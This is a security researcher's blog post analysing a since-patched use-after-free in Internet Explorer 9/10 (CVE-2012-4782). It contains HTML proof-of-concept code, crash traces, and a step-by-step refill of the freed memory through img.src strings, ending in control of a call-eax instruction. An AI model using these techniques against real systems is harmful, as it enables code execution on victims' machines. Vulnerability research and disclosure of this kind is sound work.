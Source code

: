 ```yaml
---
title: 'CMarkup Use After Free Vulnerability &#8211; CVE-2012-4782'
author: suto
layout: post

aktt_notify_twitter:
  - no
shorturls:
  - 'a:0:{}'
tweetbackscheck:
  - 1408358874
kopa_newsmixlight_total_view:
  - 3
categories:
  - research
tags:
  - 0day
  - bug
  - Exploitation
  - Internet explorer
---
```

Latest M$ tuesday patch kill one of my 0day in Microsoft Internet Explorer 9/10. So I decided release Proof Of Concept code and writeup some analyze about this bug. Hope it helpful.

Here is the PoC:

<pre class="brush: xml; title: ; notranslate" title="">&lt;!doctype html&gt;
&lt;html&gt;
        &lt;head&gt;
                &lt;meta http-equiv="X-UA-Compatible" content="IE=EmulateIE8" /&gt;
               &lt;script&gt;
                       function testcase(){
                                document.body.appendChild(document.createElement('progress'));
                                document.body.appendChild(document.createElement("&lt;track style='float:right'&gt;&lt;/track&gt;"));
                                document.body.appendChild(document.createElement('progress'));
                                document.body.appendChild(document.createElement('table'));
                                document.body.appendChild(document.createElement("&lt;track style='float:right'&gt;&lt;/track&gt;"));
                            document.getElementsByTagName('progress').item(0).appendChild(document.createElement('frameset'));
                                document.getElementsByTagName('track').item(0).offsetWidth;

                                document.getElementsByTagName('progress').item(1).appendChild(document.getElementsByTagName('track').item(0));
                                document.body.appendChild(document.createElement("&lt;ins style='margin-left:2222222222px'&gt;&lt;/ins&gt;"));

                &lt;/script&gt;
        &lt;/head&gt;
        &lt;body onload='testcase();'&gt;

        &lt;/body&gt;
&lt;/html&gt;
</pre>

After running this html we&#8217;ve got a nice crash:  
`(fcc.354): Access violation - code c0000005 (!!! second chance !!!)<br />
eax=0b7befc0 ebx=088cd6b8 ecx=0b6b2fa8 edx=00000006 esi=0b6b2fa8 edi=00000000<br />
eip=639927e9 esp=088cd1c8 ebp=088cd1d0 iopl=0         nv up ei pl nz na po nc<br />
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010202<br />
MSHTML!CTreeNode::GetFancyFormat+0xc:<br />
639927e9 0fb74640        movzx   eax,word ptr [esi+40h]   ds:0023:0b6b2fe8=0000<br />
0:017> u<br />
MSHTML!CTreeNode::GetFancyFormat+0xc:<br />
639927e9 0fb74640        movzx   eax,word ptr [esi+40h]<br />
639927ed 6685c0          test    ax,ax<br />
`

Now using my binary instrumentation framework (a PIN based instrumentation which could do things like: crash analyze, taint tracing, code coverage..), I could get the following output

`<br />
Exception Point: 639927e9 0fb74640        movzx   eax,word ptr [esi+40h]<br />
Current Register:<br />
eax:0b7befc0<br />
esi:0b6b2fa8<br />
Backtrace analyze:<br />
[+]639927e7 -> esi: 0b6b2fa8 | ecx: 0b6b2fa8<br />
[+]639927e5 -> ecx: 0b6b2fa8<br />
[+]636c1d2d -> ecx:0b6b2fa8<br />
[+]639ae295 -> esi: 0b6b2fa8<br />
===================<br />
Detect Freed Address: 0b6b2fa8 at EIP 639AE299<br />
With param: HeapFree(150000,23,0b6b2fa8)<br />
`

So it is a pretty nice Used After Free vulnerability. But what is freed?

Run the tool again, this time to collect information about Heap Allocate, I can see:  
`<br />
.....<br />
Detect Heap Allocate : 638f13dc<br />
With Param: HeapAlloc(150000, 8u, 0x54)<br />
Return value: 0b6b2fa8`

And it occur in function:  
`CMarkup::InsertElementInternal`  
So now we can use a little trick to manipulate freed address:

<pre class="brush: xml; title: ; notranslate" title="">&lt;!doctype html&gt;
&lt;html&gt;
	&lt;head&gt;
		&lt;meta http-equiv="X-UA-Compatible" content="IE=EmulateIE8" /&gt;

		&lt;script&gt;

                function testcase(){

				var img = new Array();
				  for(var i = 0;i &lt; 100;i++){
				  	img[i] = document.createElement('img');
				  	img[i]["src"] = "a";
				  }
				document.body.appendChild(document.createElement('progress'));
				document.body.appendChild(document.createElement("&lt;track style='float:right'&gt;&lt;/track&gt;"));
				document.body.appendChild(document.createElement('progress'));
				document.body.appendChild(document.createElement('table'));
				document.body.appendChild(document.createElement("&lt;track style='float:right'&gt;&lt;/track&gt;"));
			    document.getElementsByTagName('progress').item(0).appendChild(document.createElement('frameset'));
				document.getElementsByTagName('track').item(0).offsetWidth;

				document.getElementsByTagName('progress').item(1).appendChild(document.getElementsByTagName('track').item(0));
				document.body.appendChild(document.createElement("&lt;ins style='margin-left:2222222222px'&gt;&lt;/ins&gt;"));

				window.scroll(500);

				for(var j = 0;j &lt; 99;j++){
				 	img[j]["src"] = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";}

				 }

		&lt;/script&gt;
	&lt;/head&gt;
	&lt;body onload='testcase();'&gt;

	&lt;/body&gt;
&lt;/html&gt;
</pre>

And we&#8217;ve got:  
`<br />
(c10.d88): Access violation - code c0000005 (!!! second chance !!!)<br />
eax=00000041 ebx=088cd6b8 ecx=00410041 edx=ff000000 esi=0c53efa8 edi=00000000<br />
eip=639927ff esp=088cd1c8 ebp=088cd1d0 iopl=0         nv up ei pl nz na pe nc<br />
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010206<br />
MSHTML!CTreeNode::GetFancyFormat+0x1e:<br />
639927ff 8b4a2c          mov     ecx,dword ptr [edx+2Ch] ds:0023:ff00002c=????????<br />
0:017> dd esi<br />
0c53efa8  00410041 00410041 00410041 00410041<br />
0c53efb8  00410041 00410041 00410041 00410041<br />
0c53efc8  00410041 00410041 00410041 00410041<br />
0c53efd8  00410041 00410041 00410041 00410041<br />
0c53efe8  00410041 00410041 00410041 00410041<br />
0c53eff8  00410041 d0d00000 ???????? ????????<br />
0c53f008  ???????? ???????? ???????? ????????<br />
0c53f018  ???????? ???????? ???????? ????????<br />
0:017> dd 410041<br />
00410041  b341be78 7274f8ac 18ea3e88 3c00005c<br />
00410051  ff000000 4dffffff cbb7a93b b0487827<br />
00410061  ebd03627 48a7a85f 3d00005c ff000000<br />
00410071  98ffffff 9b1b1704 a14da1bb 315fec5b<br />
00410081  74f7c784 3e00005c ff000000 f0ffffff<br />
00410091  0d343fb3 ae43076f 1b2599a9 a86d9aad<br />
004100a1  3f00005c ff000000 93ffffff ddca1f10<br />
004100b1  844c01b0 ebee76ab dc391fca 4000005c<br />
0:017> u<br />
`  
Why it crashing here:  
`<br />
.text:639927E9                 movzx   eax, word ptr [esi+40h]<br />
.text:639927ED                 test    ax, ax<br />
.text:639927F0                 js      loc_63842DAE<br />
.text:639927F6                 mov     ecx, [esi+50h]<br />
.text:639927F9                 mov     edx, [ecx+80h]<br />
.text:639927FF                 mov     ecx, [edx+2Ch]`  
Since we can control esi, we can force program to jump 63842DAE by changing some bytes in img.src:  
`<br />
..<br />
img[j]["src"] = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAu8141u4141AAAAAAAA";}<br />
....<br />
`

`<br />
(614.fd4): Access violation - code c0000005 (!!! second chance !!!)<br />
eax=00000000 ebx=00000000 ecx=00410041 edx=b341be78 esi=088ccc00 edi=0c540fa8<br />
eip=6383a61a esp=088ccbe0 ebp=088ccbf0 iopl=0         nv up ei pl zr na pe nc<br />
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246<br />
MSHTML!CTreeNode::ComputeFormats+0xa1:<br />
6383a61a 8b82c4000000    mov     eax,dword ptr [edx+0C4h] ds:0023:b341bf3c=????????<br />
0:017> dd edi<br />
0c540fa8  00410041 00410041 00410041 00410041<br />
0c540fb8  00410041 00410041 00410041 00410041<br />
0c540fc8  00410041 00410041 00410041 00410041<br />
0c540fd8  00410041 00410041 00410041 00410041<br />
0c540fe8  41418141 00410041 00410041 00410041<br />
0c540ff8  00410041 d0d00000 ???????? ????????<br />
0c541008  ???????? ???????? ???????? ????????<br />
0c541018  ???????? ???????? ???????? ????????<br />
0:017> dd ecx<br />
00410041  b341be78 7274f8ac 18ea3e88 3c00005c<br />
00410051  ff000000 4dffffff cbb7a93b b0487827<br />
00410061  ebd03627 48a7a85f 3d00005c ff000000<br />
00410071  98ffffff 9b1b1704 a14da1bb 315fec5b<br />
00410081  74f7c784 3e00005c ff000000 f0ffffff<br />
00410091  0d343fb3 ae43076f 1b2599a9 a86d9aad<br />
004100a1  3f00005c ff000000 93ffffff ddca1f10<br />
004100b1  844c01b0 ebee76ab dc391fca 4000005c<br />
`

And we change edi:  
`<br />
img[j]["src"] = "AAAAAAAAAAAAAAAAAAAAAAAAu5555u5555AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAu8141u4141AAAAAAAA";}<br />
`

And Boom:  
`<br />
eax=00000000 ebx=00000000 ecx=55555555 edx=640386e0 esi=088ccc00 edi=0c678fa8<br />
eip=6383a618 esp=088ccbe0 ebp=088ccbf0 iopl=0         nv up ei pl zr na pe nc<br />
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246<br />
MSHTML!CTreeNode::ComputeFormats+0x9f:<br />
6383a618 8b11            mov     edx,dword ptr [ecx]  ds:0023:55555555=????????<br />
0:017> u<br />
MSHTML!CTreeNode::ComputeFormats+0x9f:<br />
6383a618 8b11            mov     edx,dword ptr [ecx]<br />
6383a61a 8b82c4000000    mov     eax,dword ptr [edx+0C4h]<br />
6383a620 ffd0            call    eax<br />
6383a622 8b400c          mov     eax,dword ptr [eax+0Ch]<br />
6383a625 57              push    edi<br />
6383a626 893e            mov     dword ptr [esi],edi<br />
6383a628 894604          mov     dword ptr [esi+4],eax<br />
6383a62b 8b0f            mov     ecx,dword ptr [edi]`

Good luck pwner :p